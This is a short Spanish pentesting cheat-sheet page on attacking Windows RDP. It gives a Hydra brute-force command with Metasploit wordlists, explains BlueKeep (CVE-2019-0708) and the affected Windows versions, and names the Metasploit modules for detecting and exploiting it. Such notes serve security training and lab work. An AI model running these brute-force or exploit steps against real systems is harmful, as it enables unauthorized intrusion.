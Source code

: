 # RDP

## Fuerza Bruta

### Hydra

Para hacer fuerza bruta usamos hydra de la siguiente forma:

```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://192.168.1.1 -s 3333
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## BlueKeep (CVE-2019-0708)

{% hint style="info" %}
BlueKeep (CVE-2019-0708) es una vulnerabilidad crítica en el servicio de Remote Desktop Protocol (RDP) de Microsoft Windows. Esta vulnerabilidad permite la ejecución remota de código en sistemas vulnerables, lo que significa que un atacante puede tomar el control de un equipo afectado sin necesidad de credenciales de usuario

Algunos S.O. afectados:

* Windows XP
* Windows Vista
* Windows 7
* Windows Server 2003
* Windows Server 2008 & R2
{% endhint %}

### Detección

Podemos usar el siguiente modulo de metasploit:

```bash
/auxiliary/scanner/rdp/cve_2019_0708_bluekeep
```

<figure><img src="../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

### Explotación

Podemos usar el siguiente modulo de metasploit:

```bash
/exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

<figure><img src="../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>
